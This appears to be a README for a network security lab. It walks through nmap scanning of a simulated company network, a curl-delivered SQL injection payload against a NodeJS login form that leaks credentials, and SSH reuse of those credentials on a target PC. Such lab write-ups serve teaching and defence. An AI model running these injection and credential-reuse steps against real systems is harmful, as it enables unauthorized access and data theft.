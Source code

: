 # NetworkSecurity-Project

Network Security project about SSH, Database and SQL Injection.

# Network Scheme

![Network](Image/network_scheme.svg)

-   Sql Network
    1. Web Server hosting a stub site using NodeJS
    2. MySQL Server hosting sensitive information
-   Employee Network
    1. BobPC which represent the hacker host
    2. TomPC which represent the target host
-   Company Network
    1. All the Employee network
    2. Web Server

# Background Scenario

This lab is about a industrial espionage, represented by Bob, who is infiltrated inside a company lan network and found, among a lot of other devices, one vulnerable computer that belongs to Tom and an useful site open ONLY inside the company network.

During the demostration scenario we found out these IP:

-   _172.19.0.1_ - Company Network
-   _172.19.0.2_ - Bob PC on company network
-   _172.19.0.3_ - Tom PC on company network
-   _172.19.0.4_ - Web Server on company network
-   _172.20.0.1_ - Employee Network
-   _172.20.0.2_ - Bob PC on employee network
-   _172.20.0.3_ - Tom PC on employee network

And we don't have any access to the Web network

# Instruction: what to do

1. Footprinting: gather information online about the organization
2. Scanning: scan vulnerable point of access
3. Enumeration: probing more intrusive of vulnerable services
4. Exploitation: attacking those potential vulnerability

## Footprinting

In this case scenario we're already connected to the local network, so we've already gathered enought information about our target

## Scanning

We start find out our IP address on the networks using `ifconfig` command, and we found out.

Using then `nmap` tool with these options:

-   “-sn” means “no port scan”
-   “-PE” sends ICMP Echo Request
-   “--send-ip” to not send ARP packets

We found out some host IP:

**_Company Network_**
![Company Network](Image/company_network.png)

**_Employee Network_**
![Employee Network](Image/employee_network.png)

## Enumeration

We're interested in the Web Server and in Tom PC, so we can scan more aggressively to find about any open port

If we use simply a TPC SYN scan from nmap, we find vague information:

![Web Server SS scan](Image/webserver_ss.png)

Else, if we explore more with a Version Detection scan, we can scan even beyond the typical use of a port like 8080:

![Web Server SV scan](Image/webserver_sv.png)
and we find about a web server open on port 8080.

Meanwhile on Tom PC we found an open SSH port
![Tom PC SV scan](Image/tom_sv.png)
We can think about SSH after getting information about the site.
Now we can find about this site (in a real case scenario we should use DirBuster to map the entire site) and the main page.
![cURL webserver](Image/webserver_curl.png)
We retrived the html page using `curl` and found out about a login form, which we can try to exploit.

## Exploitation

We can try some usual combination for the form

```bash
curl -X POST -d 'username=a&password=b' 172.19.0.4:8080
```

Which returns "Error value(s) missing"

```bash
curl -X POST -d 'username=&password=b' 172.19.0.4:8080
```

Which returns

`{"success":false,"response":"No user found","result":[]}`

and we can try last one with MySQL injection using OR and commenting syntax

```bash
curl -X POST -d 'username=" OR 1<2; -- &password=b' 172.19.0.4:8080
```

which return us a bunch of credentials
![Web Server SQL](Image/webserver_sql.png)
including only one user called Tom with:

```
username = tcasaccio1
password = YLN1NrMdGN
```

## SSH Access

Now that we gather those information, we can hope that the only user we know has the same user and password as this database.

We can try to log in using:

```bash
ssh tcasaccio1@172.20.0.3
```

# SQL Injection Procedure
